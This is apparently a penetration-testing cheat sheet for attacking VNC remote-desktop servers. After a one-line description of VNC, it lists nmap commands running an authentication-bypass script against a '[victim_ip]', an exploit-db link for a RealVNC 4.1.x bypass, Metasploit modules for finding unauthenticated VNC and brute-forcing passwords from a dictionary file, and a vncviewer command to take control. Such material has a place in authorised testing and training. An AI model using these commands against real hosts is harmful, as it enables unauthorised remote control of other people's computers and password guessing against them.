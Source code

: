 ### Virtual Network Computing (VNC)
Gaphical desktop sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another. 

### nmap scan with nse script
```
nmap -sV --script realvnc-auth-bypass.nse [victim_ip] -p 5900

nmap --script vnc-info [victim_ip] -p 5901
```

### Authentication Bypass exploit (version RealVNC 4.1.0/4.1.1)
```
https://www.exploit-db.com/exploits/36932
```

### MSF VNC auth check with none scanner
```
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf > set RHOSTS [target_ip]
msf > set THREADS [int]
msf > run
```

### MSF VNC Password attack
```
msf > use auxiliary/scanner/vnc/vnc_login
msf > set rhosts [victim_ip]
msf > set rport [victim_ip
msf > set pass_file /your/dictionary/file
msf > run
```

### VNC access
```
vncviewer [victim_ip]:[victim_port]
```

#### References
- https://en.wikipedia.org/wiki/Virtual_Network_Computing
- https://www.offensive-security.com/metasploit-unleashed/vnc-authentication/
- https://www.hackingarticles.in/vnc-penetration-testing/
